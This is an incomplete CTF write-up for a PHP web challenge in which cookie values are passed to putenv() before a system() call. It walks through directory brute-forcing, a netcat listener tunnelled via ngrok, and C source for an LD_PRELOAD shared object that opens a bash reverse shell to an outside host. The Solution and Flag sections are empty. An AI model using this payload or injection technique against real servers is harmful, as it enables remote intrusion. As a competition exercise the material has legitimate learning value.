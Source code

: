 # Finals: Web - Hello_GreyCat_Beta (1000)

Note: This challenge was not blooded during the whole CTF

## Challenge:

```php
<?php
    // Beauty lies in simplicity
    if(isset($_COOKIE['info'])){
        foreach($_COOKIE['info'] as $key => $value) {
            putenv("{$key}={$value}");
        }

        system('echo Hello, $name');
    }

    if(!isset($_COOKIE['info'])) {
        setcookie('info[name]', "GreyCat");
        header("Location: ".$_SERVER["REQUEST_URI"]);
    }
?>
```

A very similar challenge to the alpha challenge, but significantly harder. We are allowed to put any environment variable as usual, and it will run the `echo` system` function.

After the previous qualifier challenge `Too Fast`, I've learnt my lesson to let `gobuster` run for at least 10 seconds to make sure no random pages are hiding, but also not too long to prevent affecting the infra

```
gobuster dir -u http://34.142.161.21:12322/ -w /shared/dirb/directory-list-2.3-small.txt -t 20 -x .php
```

And we find a `info.php` which has the `phpinfo()`.

We see that the architecture is now `Debian` so the previous exploit would not work
![archi](../images/beta1.png)

Taking a look at the other functions, we see that `disable_functions` is empty and that `file_uploads` is on. This means that we can still use our `POST` trick to `/tmp/phpxxxxxx` which was used in the challenge [Shero](./Shero.md).

![phpinfo](../images/beta2.png)

Set up a rev shell

```
nc -lv 12345
```

Tunnel through ngrok

```
ngrok tcp 12345
```

Generate your payload

```c
// gcc -shared -fPIC shell.c -o shell.so

#include <unistd.h>
#include <stdlib.h>

__attribute__ ((__constructor__)) void exec(void){
    if (getenv("LD_PRELOAD") == NULL){ return; }
    unsetenv("LD_PRELOAD");
    system("bash -c \"sh -i >& /dev/tcp/2.tcp.ngrok.io/12345 0>&1\"");
    return;
}
```

### TBC (for some reason i can't complete the exploit locally)

## Solution

```python

```

## Flag

```

```
